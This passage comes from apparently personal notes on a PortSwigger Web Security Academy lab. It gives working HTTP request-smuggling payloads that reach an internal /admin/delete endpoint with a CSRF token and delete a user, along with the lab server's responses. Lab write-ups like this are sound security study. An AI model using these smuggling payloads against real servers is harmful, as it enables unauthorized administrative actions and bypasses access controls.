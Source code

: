 note that when deleting the original session, the CSRF value of the form keeps changing every time you submit, while it stays the same value if you keep the session cookie... i am not sure if this will be important so: - noted

4. lets change our smuggled payload to POST, use the /admin/delete path,  calibrate the CL to include the CSRF (taken from the form) and the username to be deleted:

```
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 53

csrf=zi9TIKrlUGeQ38CAuM197KLRHyohbgSg&username=carlos
```

**final paylod:**
```
POST /login HTTP/1.1
Host: 0a22006403f519bfc0ee6fef00d90004.web-security-academy.net
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 0

POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 53

csrf=zi9TIKrlUGeQ38CAuM197KLRHyohbgSg&username=carlos
```
response 302 to our payload (and orange bar of success!):
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Keep-Alive: timeout=10
Content-Length: 26

"Missing parameter 'csrf'"HTTP/1.1 302 Found
Location: /
Keep-Alive: timeout=10
Content-Length: 0
```

**smuggled!**



<span style="color:yellow;font-weight:700;font-size:30px">
Blind SSRF vulnerabilities - 2 Labs
</span>
https://portswigger.net/web-security/ssrf/blind

